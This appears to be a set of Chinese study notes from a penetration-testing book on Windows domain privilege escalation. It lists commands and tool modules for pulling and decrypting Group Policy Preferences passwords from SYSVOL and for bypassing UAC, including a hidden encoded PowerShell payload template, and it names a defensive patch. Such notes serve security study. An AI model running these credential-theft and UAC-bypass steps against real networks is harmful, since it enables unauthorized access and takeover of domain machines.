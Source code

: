 + 创建组策略,批量修改域中机器的本地管理员密码(191页)
//这特莫都有了可以修改组策略的权限了......, 提权方式主要是看下一步
+ 获取组策略的凭据
> 管理员在域中新建里一个组策略后,操作系统会自动在SYSVOL共享目录中生产一个XML文件该文件保存里该组策略更新后的密码(针对第一步而言,第一步是创建一个修改域中机器本地管理员密码的组策略,所以这一步的xml文件中会保存密码,密码是在创建组策略时就设定好的)
> 该密码使用AES-256加密算法,2012年微软公布了该密码的私钥
> 任何域用户和域信任的用户均可访问该共享目标(目录SYSVOL)
> 也可以参考:https://adsecurity.org/?p=2288
1):手动查找cpassword
文件夹在域控制器的SYSVOL共享目录中
`\sysvol\域名\Policies\组策略的GUID\MACHINE\Preferences\Groups\Groups.xml`
//命令行下查看
`type \\dc\sysvol\域名\Policies\组策略的GUID\MACHINE\Preferences\Groups\Groups.xml`
//对密码解密
`python gpprefdecrypt.py 密文`
2):使用powersploit获取cpassword(powershell)
`Get-GPPPassword.ps1`	//脚本名称,此处没详细列出命令(如导入脚本等)
3):使用metasploit查找cpassword
`post/windows/gather/credentials/gpp`
4):使用Empire查找cpassword
`usemodule privesc/gpp`
其他组策略首选项文件中可能存在cpassword的文件
> Services\Services.xml
> ScheduledTasks\ScheduledTasks.xml
> Printers\Printers.xml
> Drives\Drives.xml
> DataSources\DataSources.xml
+ 防御(195页)
KB2962486补丁
## 4.4 绕过UAC提权分析及防范
> User Account Control 用户账户控制  windows Vista和以后的版本中(197页)
### 4.4.3 metasploit
+ bypassuac模块
> 当前用户必须在管理员组中
> UAC必须为默认设置:仅在程序试图更改我的计算机时通知我
```
//会创建多个文件,可能会被查杀
exploit/windows/local/bypassuac
//直接运行在内存的反射DLL中,不接触目标机器硬盘
exploit/windows/local/bypassuac_injection 
```
+ RunAs模块
> 会创建一个可执行文件,目标机器运行一个发起提升权限请求的程序(弹框),需用户选择"是"
> 当前用户必须在管理员组中,并且知道管理员的密码
> 对UAC设置没有要求
> 需要使用EXE::Custom选项创建一个可执行文件(需进行免杀处理)
`exploit/windows/local/ask`
### 4.4.4 Nishang
+ Invoke-PsUACme模块
```
//使用sysprep方法并执行默认的payload
Invoke-PsUACme -Verbose
//使用oobe方法并执行默认payload
Invoke-PsUACme -method oobe -Verbose
//使用-payload参数,自行指定要执行的payload
Invoke-PsUACme -method oobe -payload "powershell -windowstyle hidden -e 编码的payload代码"
//指定payload路径
-PayloadPath
//自定义DLL文件
-CustomDLL64		//64位
-CustomDLL32		//32位
```